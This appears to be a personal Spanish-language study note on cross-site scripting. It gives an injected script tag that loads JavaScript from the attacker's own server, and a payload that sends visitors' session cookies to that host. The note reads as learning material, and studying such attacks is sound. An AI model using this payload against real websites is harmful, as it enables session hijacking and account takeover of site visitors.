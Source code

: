 ```yaml
---
created: 2024-12-21

---
```

------
- tags: #web #xss
- -----------
# ¿Qué es?
> Los ataques XSS permiten inyectar código HTML, para así crear una etiqueta \<script\> en la que posteriormente inyectar código javascript.

> Lo que buscaremos será:
> 1.- Conseguir una cookie de session
> 2.- Que un usuario visitando la página realice una petición a otra página



## ¿Cómo se ejecuta?
Suponiendo que inyectamos la siguiente linea:
	\<script src="http://miip/script.js">\</script\>

Y en nuestro equipo montamos un servidor web con el archivo script.js que contenga lo siguiente:
```Javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://miip/?cookie=' + document.cookie);
request.send();
```

Recibiremos la cookie del usuario que visite la página web


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
